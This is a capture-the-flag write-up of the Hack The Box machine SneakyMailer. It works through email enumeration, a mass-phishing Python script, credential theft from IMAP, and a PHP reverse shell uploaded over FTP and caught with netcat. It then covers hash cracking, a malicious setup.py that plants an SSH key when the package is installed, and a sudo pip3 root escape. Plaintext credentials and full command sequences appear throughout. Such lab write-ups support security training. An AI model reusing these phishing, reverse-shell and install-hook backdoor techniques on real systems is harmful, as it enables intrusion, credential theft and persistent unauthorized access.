










- After some enumeration on the web site web discover a bunch of mail addresses,Found
creating a python script for send every user a link and received some credentials for Imap e-mail
account.
After reading this e-mail box we did get some other credentials,
turns out we can login to ftp with these and upload a reversed php shell.
While having this shell we discover a new DNS name pypi.sneakycorp.htb and also some credentials
User
-
With pypi we are able to create a package and write ssh key into the user low
Root
-
User low has sudo permissions on pip3 looking this at GTFOBINS we were able to get root on this box
Enumeration
-
nmap -sC -sV -p- 10.10.10.197
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-13 09:29 IST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 09:29
Completed NSE at 09:29, 0.00s elapsed
Initiating NSE at 09:29
Completed NSE at 09:29, 0.00s elapsed
Initiating NSE at 09:29
Completed NSE at 09:29, 0.00s elapsed
Initiating Ping Scan at 09:29
Scanning 10.10.10.197 [4 ports]
Completed Ping Scan at 09:29, 0.34s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:29
Scanning dev.sneakycorp.htb (10.10.10.197) [1000 ports]
Discovered open port 25/tcp on 10.10.10.197
Discovered open port 80/tcp on 10.10.10.197
Discovered open port 22/tcp on 10.10.10.197
Discovered open port 21/tcp on 10.10.10.197
Discovered open port 993/tcp on 10.10.10.197
Discovered open port 143/tcp on 10.10.10.197
Discovered open port 8080/tcp on 10.10.10.197
Completed SYN Stealth Scan at 09:29, 11.04s elapsed (1000 total ports)
Initiating Service scan at 09:29
Scanning 7 services on dev.sneakycorp.htb (10.10.10.197)
Completed Service scan at 09:29, 11.81s elapsed (7 services on 1 host)
Initiating OS detection (try #1) against dev.sneakycorp.htb (10.10.10.197)
Retrying OS detection (try #2) against dev.sneakycorp.htb (10.10.10.197)
Retrying OS detection (try #3) against dev.sneakycorp.htb (10.10.10.197)
Retrying OS detection (try #4) against dev.sneakycorp.htb (10.10.10.197)
Retrying OS detection (try #5) against dev.sneakycorp.htb (10.10.10.197)
Initiating Traceroute at 09:30
Completed Traceroute at 09:30, 0.32s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 09:30
Completed Parallel DNS resolution of 2 hosts. at 09:30, 0.57s elapsed
NSE: Script scanning 10.10.10.197.
Initiating NSE at 09:30
Completed NSE at 09:30, 19.73s elapsed
Initiating NSE at 09:30
Completed NSE at 09:30, 31.01s elapsed
Initiating NSE at 09:30
Completed NSE at 09:30, 0.00s elapsed
Nmap scan report for dev.sneakycorp.htb (10.10.10.197)
Host is up (0.66s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
| 256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_ 256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp open smtp Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING,
80/tcp open http nginx 1.14.2
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp open imap Courier Imapd (released 2018)
|_imap-capabilities: completed CAPABILITY IDLE NAMESPACE ACL THREAD=REFERENCES QUOTA CHILDREN UTF8=ACCEPTA0001 IMAP4rev1 ENABLE OK ACL2=UNION STARTTLS THREAD=ORDEREDSUBJECT SORT UIDPLUS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-14T17:14:21
| Not valid after: 2021-05-14T17:14:21
| MD5: 3faf 4166 f274 83c5 8161 03ed f9c2 0308
|_SHA-1: f79f 040b 2cd7 afe0 31fa 08c3 b30a 5ff5 7b63 566c
|_ssl-date: TLS randomness does not represent time
993/tcp open ssl/imap Courier Imapd (released 2018)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-14T17:14:21
| Not valid after: 2021-05-14T17:14:21
| MD5: 3faf 4166 f274 83c5 8161 03ed f9c2 0308
|_SHA-1: f79f 040b 2cd7 afe0 31fa 08c3 b30a 5ff5 7b63 566c
|_ssl-date: TLS randomness does not represent time
8080/tcp open http nginx 1.14.2
| http-methods:
|_ Supported Methods: GET HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/13%OT=21%CT=1%CU=36468%PV=Y%DS=2%DC=T%G=Y%TM=5F0BDC7
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
Uptime guess: 7.778 days (since Sun Jul 5 14:50:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 8888/tcp)
HOP RTT ADDRESS
1 322.24 ms 10.10.14.1
2 322.25 ms dev.sneakycorp.htb (10.10.10.197)
NSE: Script Post-scanning.
Initiating NSE at 09:30
Completed NSE at 09:30, 0.00s elapsed
Initiating NSE at 09:30
Completed NSE at 09:30, 0.00s elapsed
Initiating NSE at 09:30
Completed NSE at 09:30, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.42 seconds
Raw packets sent: 1619 (75.262KB) | Rcvd: 1163 (50.101KB)
-
in the nmap results we see a host name: http://sneakycorp.htb
adding host name to host file

-
When we go to http://sneakycorp.htb/team.php we see a bunch of users/email addresses on top of notification icon

-
when we look at the source code we can read the messages

SNMP
- Also another DNS name should be added to our host file: sneakymailer.htb
- After this I decided to enumerate the e-mail addresses to see which ones are valid with help of using telnet for that
- telnet 10.10.10.197 25
- vrfy bradleygreer@sneakymailer.htb (verifying which emails are correct because so many e-mails are there)

- I just grabbed a few random in the list and it seems that they are all valid.
- After that I created a python script to e-mail every user
# Import SMTP Library
import smtplib
# Import email modules
from email.message import EmailMessage
# Sender and Receiver
sender = 'example@example.com' #change this to your gmail account
receivers = [line.strip() for line in open('email.txt')]
# Message
message = EmailMessage()
message['Subject'] = 'Welcome'
message['From'] = sender
message['To'] = receivers
message.set_content('http://10.10.14.8') # change this to your tun0 ip address
# Send email
try:
smtpObj = smtplib.SMTP('10.10.10.197', 25)
smtpObj.send_message(message)
print("Email sent")
except smtplib.SMTPException:
print("Error sending email")
finally:
smtpObj.quit()
- after running the script and listening on port 80 we get the response:

- after url decode we found some credentials
- https://www.urldecoder.org/
- paulbyrd@sneakymailer.htb:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
- Trying these credentials on the imap service
- telnet 10.10.10.197 143
- 0 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
- we get logged in succesfully

- after this I list all directories in the mail box
- using this command:
- 0 LIST “” “*”
- Selecting sent items:
- 0 select “INBOX.Sent Items”
- looking how many messages are in there:
- f fetch 1:4 (BODY[HEADER.FIELDS (Subject)])
- Read message:
- F1 fetch 1 RFC822

- Username: developer
- Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
- Now I Try These credentials on ftp server
- ftp 10.10.10.197
- developer
- m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
- we got root user in ftp
- so we try reverse shell through ftp
- let's use php reverse shell
- https://github.com/pentestmonkey/php-reverse-shell
- uploading shell:
- mput secwalk.php (in dev directory)
- After playing around and uploading my shell it didn’t seem to work.
- after adding another host name I was able to get a shell:
- http://dev.sneakycorp.htb
- also the folder dev in the ftp gave a hint away there should be another vhost
- nc -lvp 9001 (you use any port but i use this port)
- you can execute you php payload through:
- http://dev.sneakycorp.htb/secwalk.php

- first su developer and then password m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C then you got the user.txt file
- then i Check the /var/www/ files
- and we got Something
- we got another host
- pypi.sneakycorp.htb (this is running on port 8080)
- I Add it in our /etc/hosts file
- when i go in the directory i got .htpasswd file
- i cat it and i got some credentials
- pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

- looks like a md5(apr) hash
- so i try to crack this hash with hashcat
- hashcat -m 1600 ‘$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/’ /usr/share/wordlists/rockyou.txt –force
- and i get it i found the password
- $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
- But question is where to try it
- So here we can conclude that we can install package in machiene
- so what we will be doing is we will be installing them manually so that we could place our script in place of actual package
REFRENCE
- https://pypi.org/project/pypiserver/#upload-with-setuptools
- https://www.activestate.com/resources/quick-reads/how-to-manually-install-python-packages/#:~:text=Installing%20Python%20Packages%20with%20Setup,Enter%3A%20python%20setup.py%20install
- after channging minor parts in script it will look like
SETUP.PY
import setuptools
try:
with open("/home/low/.ssh/authorized_keys", "a") as f:
f.write("\n") #here you enter your ssh key (id_rsa.pub) after \n
f.close()
except Exception as e:
pass
setuptools.setup(
name="example-pkg3", # Replace with your own username
version="0.0.1",
author="Example Author",
author_email="author@example.com",
description="A small example package",
long_description="",
long_description_content_type="text/markdown",
url="https://github.com/pypa/sampleproject",
packages=setuptools.find_packages(),
classifiers=[
"Programming Language :: Python :: 3",
"License :: OSI Approved :: MIT License",
"Operating System :: OS Independent",
],
)
.pypirc
[distutils]
index-servers = local
[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui

- Just upload both of them in TMP diretory of htb machiene in any folder and run this command
python3 setup.py sdist register -r local upload -r local
whole scenario looks like this :
developer@sneakymailer:/$ cd /tmp
cd /tmp
ldeveloper@sneakymailer:/tmp$ s
ls
systemd-private-2c8ab75d46924481ac84f56b75c9a067-systemd-timesyncd.service-a5Ynvb
vmware-root_458-834774610
developer@sneakymailer:/tmp$ mkdir dedsec
mkdir dedsec
cd developer@sneakymailer:/tmp$ cd dedsec
cd dedsec
developer@sneakymailer:/tmp/dedsec$ HOME=$(pwd)
HOME=$(pwd)
developer@sneakymailer:~$ pwd
/tmp/dedsec
pwd
developer@sneakymailer:~$ wget http://10.10.15.56/setup.py
wget http://10.10.15.56/setup.py
--2020-07-13 01:06:52-- http://10.10.15.56/setup.py
Connecting to 10.10.15.56:80... connected.
HTTP request sent, awaiting response... w200 OK
Length: 1193 (1.2K) [text/plain]
Saving to: ‘setup.py’
0K . 100% 1.94M=0.001s
2020-07-13 01:06:53 (1.94 MB/s) - ‘setup.py’ saved [1193/1193]
developer@sneakymailer:~$wget http://10.10.15.56/.pypirc
wget http://10.10.15.56/.pypirc
--2020-07-13 01:07:05-- http://10.10.15.56/.pypirc
Connecting to 10.10.15.56:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 128 [application/octet-stream]
Saving to: ‘.pypirc’
0K 100% 19.6M=0s
2020-07-13 01:07:07 (19.6 MB/s) - ‘.pypirc’ saved [128/128]
developer@sneakymailer:~$ python3 setup.py sdist register -r local upload -r local
example-pkg3-0.0.1
copying example_pkg3.egg-info/PKG-INFO -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/SOURCES.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/dependency_links.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
copying example_pkg3.egg-info/top_level.txt -> example-pkg3-0.0.1/example_pkg3.egg-info
Writing example-pkg3-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'example-pkg3-0.0.1' (and everything under it)
running register
Registering example-pkg3 to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Registering is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
running upload
Submitting dist/example-pkg3-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Uploading via this command is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
developer@sneakymailer:~$
- After this we will get ssh connection
- ssh low@10.10.10.197
- if it don't work
- use chmod 600 to id_rsa file
- ssh -i id_rsa low@10.10.10.197
- i hope this work for you
Privilege escalation
- Here we will be using simple sudo -l command :
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User low may run the following commands on sneakymailer:
(root) NOPASSWD: /usr/bin/pip3
low@sneakymailer:~$
- So we use https://gtfobins.github.io/ to GETTING ROOT ACCESS
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User low may run the following commands on sneakymailer:
root) NOPASSWD: /usr/bin/pip3
low@sneakymailer:~$
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.qRgHUXIOL0
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
d6xxxxxxxxxxxxxxxxxxxxxxxxxxxxc0
#
Disclaimer
- Please use our posts for educational purposes only.